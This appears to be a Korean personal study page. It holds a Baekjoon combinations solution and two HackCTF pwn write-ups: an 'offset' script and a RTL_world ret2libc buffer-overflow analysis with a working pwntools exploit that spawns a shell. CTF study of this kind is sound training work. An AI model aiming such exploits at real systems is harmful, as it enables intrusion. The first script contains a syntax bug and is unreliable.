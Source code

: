 # 개인공부
## python and pwn

## hackctf: offset      

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()


## 백준: 14889. 스타트와 링크

>> 상황에 따라 조합함수 , 수열함수 이용하기


풀이


from itertools import combinations # 조합 함수

>> itertools 모듈 - combination 함수

>> itertools - combinations_with_replacement 함수

N = int(input())        # 반복 횟수 받기

able_borad = []     

for _ in range(N):
    able_borad.append(list(map(int,input().split())))

number_list = [i for i in range(N)]     # 멤버들의 총 리스트

res = float('inf')  #???    # 능력치 차이 최소값


'''
>>> float('inf')          # 양의 무한대
inf

>>> float('-inf')         # 음의 무한대
-inf

>>> 1e100 < float('inf')  # 무한대는 다른 모든 실수보다 크다
True

>>> 1e309                 # 너무 큰 실수는 무한대로 평가된다
inf

>>> 1e-324                # 너무 0에 가까운 실수는 0으로 평가된다
0.0

'''

def solve():
    global res

    # 조합함수를 이용해서 각각 후보자를 생성
    for c in combinations(number_list, N//2):
        # 선택된 후보와 나머지

        start_number = list(c)      
        # number_list 부터 N//2 까지 반복 하면서
        # 나온 c는 비교하기위한 첫번쨰 숫자이고

        link_number = list(set(number_list) - set(c))
        # 링크 넘버는 두번쨰 숫자이다.
        # 리스트에서 스타트리스트와 겹치는 부분만 제거해주면 된다.


        # 점수 비교 2명씩
        start_com = list(combinations(start_number,2))
        # 위의 만들어놨던 스타트 멤버와 링크멤버를 서로 비교
        link_com = list(combinations(link_number,2))

        # 점수 구하기
        start_sum = 0   # 점수 합 변수
        for x,y in start_com:
            start_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.

        link_sum = 0    # 점수 합 변수
        for x,y in link_com:
            link_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.


        # 차이를 구하는거면 함수 abs 를 사용한다.
        # 왜냐하면 음수가 나올수있기떄문에
        # abs >> 절댓값 나오게하는 함수

        if (res > abs(start_sum - link_sum)):
            res = abs(start_sum-link_sum)
            # 계속해서 res와 비교해서 최소값 도출하기
solve()
print(res)

## RTL_world 풀이

checksec 입력시

CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial


이므로 이번문제 역시 yes_or_no 처럼 쉘코드 사용이 불가능하다.
또한 eax 이기떄문에 32비트이다.

일단 바이너리 코드를 살펴보자.

##코드


int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+10h] [ebp-90h]
  char buf; // [esp+14h] [ebp-8Ch]
  void *v6; // [esp+94h] [ebp-Ch]
  void *handle; // [esp+98h] [ebp-8h]
  void *s1; // [esp+9Ch] [ebp-4h]

  setvbuf(stdout, 0, 2, 0);
  handle = dlopen("/lib/i386-linux-gnu/libc.so.6", 1);
  v6 = dlsym(handle, "system");
  dlclose(handle);
  for ( s1 = v6; memcmp(s1, "/bin/sh", 8u); s1 = (char *)s1 + 1 )
    ;
  puts("\n\nNPC [Village Presient] : ");
  puts("Binary Boss made our village fall into disuse...");
  puts("If you Have System Armor && Shell Sword.");
  puts("You can kill the Binary Boss...");
  puts("Help me Pwnable Hero... :(\n");
  printf("Your Gold : %d\n", gold);
  while ( 1 )
  {
    Menu();
    printf(">>> ");
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:
        system("clear");
        puts("[Binary Boss]\n");
        puts("Arch:     i386-32-little");
        puts("RELRO:    Partial RELRO");
        puts("Stack:    No canary found");
        puts("NX:       NX enabled");
        puts("PIE:      No PIE (0x8048000)");
        puts("ASLR:  Enable");
        printf("Binary Boss live in %p\n", handle);
        puts("Binart Boss HP is 140 + Armor + 4\n");
        break;
      case 2:
        Get_Money(gold);
        break;
      case 3:
        if ( gold <= 1999 )
        {
          puts("You don't have gold... :(");
        }
        else
        {
          gold -= 1999;
          printf("System Armor : %p\n", v6);
        }
        break;
      case 4:
        if ( gold <= 2999 )
        {
          puts("You don't have gold... :(");
        }
        else
        {
          gold -= 2999;
          printf("Shell Sword : %p\n", s1);
        }
        break;
      case 5:
        printf("[Attack] > ");
        read(0, &buf, 0x400u);
        return 0;
      case 6:
        puts("Your Not Hero... Bye...");
        exit(0);
        return result;
      default:
        continue;
    }
  }
}



개인적인 생각으로 case 5: 의 read() 함수를 공격해  bof 를 일으킬수 있을거같다.

read@plt ( call ) 까지의 버퍼는 0x8c  ( 140 ) 

총 길이는 140 + 4(SFP) +  4(RET) = 148 

따라서 페이로드는

버퍼(144) + system 주소 + RET(4) + /bin/sh 주소



system 주소는 IDA 에 보면 system 주소가 있거나 해당 리눅스 gdb info func 명령어를 이용해
알수있다.

system 주소 : 0x080485b0

/bin/sh 주소 : 0x8048eb1

( /bin/sh 주소는 b*main 을 돌리고 실행한뒤 find "/bin/sh" 를 하면 찾을수있다. 주소가 2개나오는데
rtl_world 주소를 사용하면 된다.)


따라서 페이로드 작성 @@

from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3010)

p.recv(1024)
p.sendline('5')
p.recvuntil("[Attack] > ")

system_addr = p32(0x080485b0)
bin_addr = p32(0x8048eb1)

payload = "A"*144
payload += system_addr
payload += "A"*4
payload += bin_addr

p.sendline(payload)
p.interactive()


( 파일명 vi rtl.py ) 로 생성

python rtl.py 하면

cat flag 를 입력하면 flag 가 나온다.
